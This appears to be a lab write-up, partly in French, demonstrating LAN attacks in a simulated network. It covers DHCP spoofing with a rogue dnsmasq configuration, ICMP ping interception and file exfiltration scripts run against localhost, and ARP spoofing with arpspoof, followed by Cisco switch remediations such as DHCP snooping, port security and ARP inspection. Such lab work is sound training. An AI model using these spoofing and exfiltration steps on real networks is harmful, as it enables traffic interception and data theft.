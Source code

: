 # Setup

PC3> dhcp
DDORA IP 10.2.1.184/24 GW 10.2.1.254



PC3> ping 8.8.8.8

84 bytes from 8.8.8.8 icmp_seq=1 ttl=114 time=37.636 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=114 time=38.209 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=114 time=39.489 ms



R1#show ip int br
Interface                  IP-Address      OK? Method Status                Protocol
FastEthernet0/0            192.168.122.3   YES DHCP   up                    up  
FastEthernet1/0            10.2.1.254      YES NVRAM  up                    up  
FastEthernet1/1            unassigned      YES NVRAM  administratively down down
FastEthernet2/0            unassigned      YES NVRAM  administratively down down
FastEthernet2/1            unassigned      YES NVRAM  administratively down down
NVI0                       unassigned      NO  unset  up



PC3> ping 8.8.8.8

8.8.8.8 icmp_seq=1 timeout
84 bytes from 8.8.8.8 icmp_seq=2 ttl=114 time=36.501 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=114 time=53.740 ms



PC3> ping 10.2.1.51

84 bytes from 10.2.1.51 icmp_seq=1 ttl=64 time=8.285 ms
84 bytes from 10.2.1.51 icmp_seq=2 ttl=64 time=3.606 ms


Common network attacks


# DHCP

DHCP spoofing

┌──(kali㉿kali)-[~]
└─$ cat /etc/dnsmasq.conf 
server=1.1.1.1
listen-address=127.0.0.1
listen-address=10.2.1.187
no-dhcp-interface=
no-hosts
dhcp-range=10.2.1.220,10.2.1.230,12h
dhcp-option=option:netmask,255.255.255.0
dhcp-option=option:router,10.2.1.254
dhcp-option=option:dns-server,10.2.1.12
addn-hosts=/etc/dnsmasq.d/spoof.hosts

┌──(kali㉿kali)-[~]
└─$ 


Only Atk VM up - Legit DHCP Server Down

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         :
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

PC3> ip dhcp
DDORA IP 10.2.1.230/24 GW 10.2.1.254

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 10.2.1.230/24
GATEWAY     : 10.2.1.254
DNS         : 10.2.1.12
DHCP SERVER : 10.2.1.60
DHCP LEASE  : 43194, 43200/21600/37800
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

PC3>


Legit DHCP + Atk VM up - DHCP Spoofing

Capture : [dhcp_spoof.pcapng](dhcp_spoof.pcapng)

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         :
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

PC3> ip dhcp
DORA IP 10.2.1.230/24 GW 10.2.1.254

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 10.2.1.230/24
GATEWAY     : 10.2.1.254
DNS         : 10.2.1.12
DHCP SERVER : 10.2.1.60
DHCP LEASE  : 40418, 43200/21600/37800
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

Remédiation : 
Switch# conf t
Switch(config)# ip dhcp snooping
Switch(config)# ip dhcp snooping vlan ..
Switch(config)# interface ...
Switch(config-if)# ip dhcp snooping trust
Switch(config-if)# exit
Switch(config)# interface ...
Switch(config-if)# ip dhcp snooping untrust
Switch(config-if)# exit
Switch(config)# exit
Switch# show ip dhcp snooping

Switch# conf t
Switch(config)# interface ...
Switch(config-if)# switchport port-security
Switch(config-if)# switchport port-security maximum 2
Switch(config-if)# switchport port-security violation restrict
Switch(config-if)# switchport port-security mac-address sticky
Switch(config-if)# exit
Switch(config)# exit
Switch# show port-security


# ICMP

Interception ping

┌──(root㉿kali)-[/home/kali/Desktop/Script]
└─# python icmp_basic_receiver.py
Sniffing des paquets ICMP provenant de 127.0.0.1...
Ping reçu de 127.0.0.1 avec les données : test interception
Ping reçu de 127.0.0.1 avec les données : test interception
Ping reçu de 127.0.0.1 avec les données : test interception
Ping reçu de 127.0.0.1 avec les données : test interception



Exfiltration fichier

┌──(root㉿kali)-[/home/kali/Desktop/Script]
└─# python icmp_file_exfiltr.py
Envoi du bloc 1 vers 127.0.0.1 : b'toto\n'
Exfiltration terminée
#### Interception ping

Remédiation :


ARP 
┌──(root㉿kali)-[~]
└─$ echo 1 > /proc/sys/net/ipv4/ip_forward

┌──(root㉿kali)-[~]
└─$ arpspoof -i eth0 -t 10.2.1.100 -r 10.2.1.254
ARP reply sent to 10.2.1.100 (00:11:22:33:44:55) telling it's 10.2.1.254
ARP reply sent to 10.2.1.254 (00:11:22:33:44:55) telling it's 10.2.1.100
...

PC1> sh arp

10.2.1.254  00:50:79:66:68:05
10.2.1.100  00:11:22:33:44:55

PC1> sh arp

10.2.1.254  00:11:22:33:44:55
10.2.1.100  00:11:22:33:44:55

Remédiation : 

Switch(config)# ip arp inspection vlan 1
Switch(config)# ip dhcp snooping
Switch(config)# ip dhcp snooping vlan 1
Switch(config)# exit
Switch# show ip arp inspection

